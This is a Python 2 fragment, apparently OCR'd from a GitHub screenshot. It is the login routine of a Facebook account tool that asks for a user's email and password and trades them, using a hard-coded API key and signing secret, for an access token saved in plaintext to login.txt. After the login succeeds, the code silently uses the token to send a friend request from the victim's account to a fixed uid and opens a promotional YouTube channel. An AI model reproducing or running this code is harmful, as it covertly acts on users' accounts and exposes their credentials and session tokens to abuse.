		print('\033[1;97m\x1b[1;96m▩━━━━━━━━━Login Your Facebook Account━━━━━━━━━━▩\x1b[1;97m' )
		print('	' )
		id = raw_input('\033[1;97m[*] \x1b[1;91mFacebook/Email\x1b[1;93m: \x1b[1;93m')
		pwd = raw_input('\033[1;97m[*] \x1b[1;91mPassword      \x1b[1;91m: \x1b[1;92m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\x1b[1;97mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;95mLogin Successful•'
				os.system('xdg-open https://youtube.com/c/TalhaTechnologychannel')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;97mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;97mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
			